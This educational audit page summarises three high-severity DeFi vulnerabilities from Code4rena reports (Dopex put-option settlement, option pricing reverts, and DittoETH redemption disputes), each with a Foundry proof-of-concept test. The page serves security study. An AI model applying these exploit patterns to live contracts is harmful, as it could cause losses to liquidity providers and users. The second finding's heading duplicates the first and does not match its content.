 # ETAAcademy-Adudit: 6. Option

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>06. Option</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>DeFi</th>
          <td>option</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Put settlement

- Summary: Liquidity providers in PerpetualAtlanticVaultLP can anticipate potential losses from in-the-money put options, allowing them to withdraw liquidity before losses occur. This creates a disadvantage for slower or less technically savvy users. The issue is rooted in the predictability of settlement price thresholds and the LPs' ability to redeem collateral at any time, potentially draining available collateral and hindering market participation for other users.

- Impact & Recommendation: The severity is high because new depositors face guaranteed losses without a clear solution. Possible fixes include implementing a "cooling off period" for withdrawals or minting more shares to reward long-term holders, but both options impact the project's token economics.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-02-put-settlement-can-be-anticipated-and-lead-to-user-losses-and-bonding-dos) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity 0.8.19;
    import { Test } from "forge-std/Test.sol";
    import "forge-std/console.sol";
    import { ERC721Holder } from "@openzeppelin/contracts/token/ERC721/utils/ERC721Holder.sol";
    import { Setup } from "./Setup.t.sol";
    import { PerpetualAtlanticVault } from "contracts/perp-vault/PerpetualAtlanticVault.sol";
    contract PoC is ERC721Holder, Setup {
    // ================================ HELPERS ================================ //
    function mintWeth(uint256 _amount, address _to) public {
        weth.mint(_to, _amount);
    }
    function mintRdpx(uint256 _amount, address _to) public {
        rdpx.mint(_to, _amount);
    }
    function deposit(uint256 _amount, address _from) public {
        vm.startPrank(_from, _from);
        vaultLp.deposit(_amount, _from);
        vm.stopPrank();
    }
    function purchase(uint256 _amount, address _as) public returns (uint256 id) {
        vm.startPrank(_as, _as);
        (, id) = vault.purchase(_amount, _as);
        vm.stopPrank();
    }
    function setApprovals(address _as) public {
        vm.startPrank(_as, _as);
        rdpx.approve(address(vault), type(uint256).max);
        rdpx.approve(address(vaultLp), type(uint256).max);
        weth.approve(address(vault), type(uint256).max);
        weth.approve(address(vaultLp), type(uint256).max);
        vm.stopPrank();
    }
    // ================================ CORE ================================ //
    /**
    Assumptions & config:
        - address(this) is impersonating the rdpxV2Core contract
        - premium per option: 0.05 weth
        - epoch duration: 1 day; 86400 seconds
        - initial price of rdpx: 0.2 weth
        - pricing precision is in 0.1 gwei
        - premium precision is in 0.1 gwei
        - rdpx and weth denomination in wei
    **/
    function testPoCHigh3() external {
        // Setup starts here ----------------------------->
        setApprovals(address(1));
        setApprovals(address(2));
        setApprovals(address(3));
        mintWeth(5 ether, address(1));
        mintWeth(5 ether, address(2));
        mintWeth(25 ether, address(3));
        /// The users deposit
        deposit(5 ether, address(1));
        deposit(5 ether, address(2));
        deposit(25 ether, address(3));
        uint256 userBalance = vaultLp.balanceOf(address(1));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(2));
        assertEq(userBalance, 5 ether);
        userBalance = vaultLp.balanceOf(address(3));
        assertEq(userBalance, 25 ether);
        // premium = 100 * 0.05 weth = 5 weth
        uint256 tokenId = purchase(100 ether, address(this)); // 0.015 gwei * 100 ether / 0.1 gwei = 15 ether collateral activated
        skip(86500); // expires epoch 1
        vault.updateFunding();
        vault.updateFundingPaymentPointer();
        uint256[] memory strikes = new uint256[](1);
        strikes[0] = 0.015 gwei;
        uint256 fundingAccrued = vault.calculateFunding(strikes);
        assertEq(fundingAccrued, 5 ether);
        uint256[] memory tokenIds = new uint256[](1);
        tokenIds[0] = tokenId;
        /// ---------------- POC STARTS HERE ---------------------------------------------------///
        // At this point the Core contract has purchased options to sell 100 rdpx tokens
        // The market moves against `rdpx` and the puts are now in the money
        priceOracle.updateRdpxPrice(0.010 gwei);
        // Bob, a savvy user, sees there is collateral available to withdraw, and
        // because he monitors the price he knows the vault is about to take a loss
        // thus, he withdraws his capital, expecting a call to settle.
        userBalance = vaultLp.balanceOf(address(1));
        vm.startPrank(address(1));
        vaultLp.redeem(userBalance, address(1), address(1));
        vm.stopPrank();
        vm.startPrank(address(this), address(this));
        (uint256 ethAmount, uint256 rdpxAmount) = vault.settle(tokenIds);
        vm.stopPrank();
        // Bob now re-enters the LP Vault
        vm.startPrank(address(1));
        vaultLp.deposit(weth.balanceOf(address(1)), address(1));
        vm.stopPrank();
        // Now we tally up the scores
        console.log("User Bob ends with (WETH, RDPX, Shares):");
        userBalance = vaultLp.balanceOf(address(1));
        (uint256 aBob, uint256 bBob) = vaultLp.redeemPreview(userBalance);
        console.log(aBob, bBob, userBalance);
        userBalance = vaultLp.balanceOf(address(2));
        (uint256 aDave, uint256 bDave) = vaultLp.redeemPreview(userBalance);
        console.log("User Dave ends with (WETH, RDPX, Shares):");
        console.log(aDave, bDave, userBalance);
        /**
            Bob and Dave both started with 5 ether deposited into the vault LP.
            Bob ends up with shares worth 4.08 WETH + 16.32 RDPX
            Dave ends up with shares worth 3.48 WETH + 13.94 RDPX
            Thus we can conclude that by anticipating calls to `settle`,
            either by monitoring the market or through front-running,
            Bob has forced Dave to take on more of the losses.
        */
    }
    }

  ```

  </details>

## 2.[High] Put settlement can be anticipated and lead to user losses and bonding DoS

### Set minimum  timeToExpiry

- Summary: The problem occurs in the PerpetualAtlanticVault contract when attempting to purchase options. If the time difference between the next funding payment and the current block time is less than 864 seconds, it causes the option pricing to use a time to expiry of 0, resulting in a revert. This leads to unexpected reverts approximately every 14 minutes during each funding epoch.

- Impact & Recommendation: Set minimum  timeToExpiry  inside  calculatePremium.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-08-dopex#h-06-bond-operations-will-always-revert-at-certain-time-when-putoptionsrequired-is-true) & [Report](https://code4rena.com/reports/2023-08-dopex)

  <details><summary>POC</summary>

  ```solidity
      function testOptionPricingRevert() public {
        OptionPricingSimple optionPricingSimple;
        optionPricingSimple = new OptionPricingSimple(100, 5e6);
        (uint256 rdpxRequired, uint256 wethRequired) = rdpxV2Core
            .calculateBondCost(1 * 1e18, 0);
        uint256 currentPrice = vault.getUnderlyingPrice(); // price of underlying wrt collateralToken
        uint256 strike = vault.roundUp(currentPrice - (currentPrice / 4)); // 25% below the current price
        // around 14 minutes before next funding payment
        vm.warp(block.timestamp + 7 days - 863 seconds);
        uint256 timeToExpiry = vault.nextFundingPaymentTimestamp() -
            block.timestamp;
        console.log("What is the current price");
        console.log(currentPrice);
        console.log("What is the strike");
        console.log(strike);
        console.log("What is time to expiry");
        console.log(timeToExpiry);
        uint256 price = vault.getUnderlyingPrice();
        // will revert
        vm.expectRevert();
        optionPricingSimple.getOptionPrice(strike, price, 100, timeToExpiry);
    }

  ```

  </details>

## 3.[High] Closing a SR during a wrong redemption proposal leads to loss of funds

### Collateral added to closed SR by disputed Redemption

- Summary: A vulnerability in the DittoETH protocol can lead to a loss of funds when closing a Short Record (SR) during a wrong redemption proposal. When a user creates a redemption proposal with the proposeRedemption function, they must provide a list of SRs with the lowest collateral ratios (CR) in ascending order. If the list is incorrect, anyone can dispute it using the disputeRedemption function. However, if an SR is closed (due to liquidation, exiting, or transfer) between proposing and disputing, its collateral is added to the closed SR and cannot be recovered.

- Impact & Recommendation: Reopening closed SRs could resolve the issue but might be misused to avoid liquidations.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-03-dittoeth#h-06-closing-a-sr-during-a-wrong-redemption-proposal-leads-to-loss-of-funds) & [Report](https://code4rena.com/reports/2024-03-dittoeth)

<details><summary>POC</summary>

```solidity
function test_dispute_on_non_existing_sr() public {
    // setup shorts
    makeShorts({singleShorter: true});
    _setETH(1000 ether);
    skip(1 hours);
    STypes.ShortRecord memory sr1 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID);
    STypes.ShortRecord memory sr2 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+1);
    STypes.ShortRecord memory sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    uint256 cr1 = diamond.getCollateralRatio(asset, sr1);
    uint256 cr2 = diamond.getCollateralRatio(asset, sr2);
    uint256 cr3 = diamond.getCollateralRatio(asset, sr3);
    // CRs are increasing
    assertGt(cr2, cr1);
    assertGt(cr3, cr2);
    // user creates a wrong proposal
    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID + 1, shortId2: C.SHORT_STARTING_ID + 2});
    address redeemer = receiver;
    vm.prank(redeemer);
    diamond.proposeRedemption(asset, proposalInputs, DEFAULT_AMOUNT * 3 / 2, MAX_REDEMPTION_FEE);
    // on of the SRs in the proposal is closed
    fundLimitAskOpt(DEFAULT_PRICE, DEFAULT_AMOUNT / 2, extra);
    exitShort(C.SHORT_STARTING_ID + 2, DEFAULT_AMOUNT / 2, DEFAULT_PRICE, sender);
    // SR is now closed
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    uint88 collateralBefore = sr3.collateral;
    // another user disputes the wrong proposal
    address disputer = extra;
    vm.prank(disputer);
    diamond.disputeRedemption({
        asset: asset,
        redeemer: redeemer,
        incorrectIndex: 0,
        disputeShorter: sender,
        disputeShortId: C.SHORT_STARTING_ID
    });
    // SR is still closed and collateral increased
    sr3 = diamond.getShortRecord(asset, sender, C.SHORT_STARTING_ID+2);
    assertEq(uint(sr3.status), uint(SR.Closed));
    assertGt(sr3.collateral, collateralBefore);
}

```

</details>
